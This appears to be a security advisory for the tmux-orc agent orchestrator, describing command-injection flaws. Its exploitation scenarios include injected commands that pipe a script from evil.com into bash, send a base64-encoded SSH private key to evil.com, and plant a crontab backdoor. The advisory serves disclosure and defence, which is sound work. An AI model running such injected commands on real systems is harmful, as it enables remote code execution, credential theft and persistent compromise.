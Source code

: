 ### Data Exfiltration (High)
Attackers can:
- Access sensitive files (`/etc/passwd`, SSH keys, environment variables)
- Exfiltrate source code and proprietary data
- Access cloud credentials and API keys

### Denial of Service (High)
Malicious inputs can:
- Delete critical system files
- Consume system resources
- Crash the tmux server

## Exploitation Scenarios

### Scenario 1: Remote Code Execution via Orchestrator
```bash
# Attacker executes system commands
tmux-orc spawn orc --profile '; curl evil.com/backdoor.sh | bash #'

# Result: Downloads and executes remote script with full user privileges
```

### Scenario 2: Data Theft via Agent Briefing
```bash
# Attacker exfiltrates sensitive data
tmux-orc spawn agent hacker target:1 \
  --briefing "$(cat ~/.ssh/id_rsa | base64 | curl -X POST evil.com/steal -d @-)"

# Result: Steals SSH private keys and sends to attacker server
```

### Scenario 3: Privilege Escalation
```bash
# Attacker adds malicious cron job
tmux-orc spawn orc --terminal 'xterm; echo "* * * * * /tmp/evil.sh" | crontab -'

# Result: Persistent backdoor with recurring execution
```

## Affected Components

1. **Orchestrator Spawning**
   - Unescaped shell script generation
   - Direct command interpolation
   - No input validation

2. **Agent Management**
   - Unsafe daemon command construction
   - Unvalidated briefing content
   - Path traversal in working directories
